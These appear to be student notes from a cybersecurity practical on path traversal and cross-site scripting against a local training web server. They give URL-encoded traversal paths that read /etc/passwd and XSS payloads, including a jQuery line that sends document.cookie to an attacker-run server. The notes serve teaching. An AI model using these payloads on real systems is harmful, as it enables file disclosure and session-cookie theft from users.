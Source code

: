 # What are we doing this week?

## Web server
- This practical is based off a simple web server
- In this, we will access the local file system by exploiting the way the server handles URLs in relation to the file system

## Path traversal attack
- After running the server, you can browse to it via http://127.0.0.1:12345
- After this, you can browse to local file system via using this url
- Example:
    - http://127.0.0.1:12345/..%2f goes back one step in the file structure
    - http://127.0.0.1:12345/..%2f/..%2f goes back two steps from this folder (Cybersecurity)
    - http://127.0.0.1:12345/..%2f/..%2f/..%2f goes to the github root folder
    - and so on
- This can be massively exploited:
    - Access passwords on linux - http://127.0.0.1:12345/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd
- Many simply webservers are vulnerable to this attack format
- This can be avoided via checking regex expressions in the url passed to the browser

## XSS cross-site scripting attack
- This is where you can inject HTML or JS code into an input in a website to cause havoc
- Example:
    - If a website displays messages sent by users, if a user sends <script>alert('this is annoying');</script> then when the other users refresh their page this JS is executed to the user    
    - This can cause issues
    - loops can be injected, infinite loops, to make the website unusable for a user
- Injecting into prompts where it calls the code on the clients computer can let you retrieve information by hosting your own server
- Retrieve cookie from client computer (code injection):
    - this is done by injecting <script></script> tags
    - Host a hacking server on your machine -> hacking.py
    - Set up a server and then set up a method to catch requests which can catch user information
        - do_GET() function
    - Inject at client side code that makes requests to your server
        - Do this via jQuery - $.get()
    - You can then access the cookies that are stored in the client browser - document.cookie
    - E.g. $.get('http://127.0.0.1:1337/malicious?data='+ document.cookie)
    - This sends the cookie to the hacking server
- Retrieve cookie from client computer (img injection)
    - TBC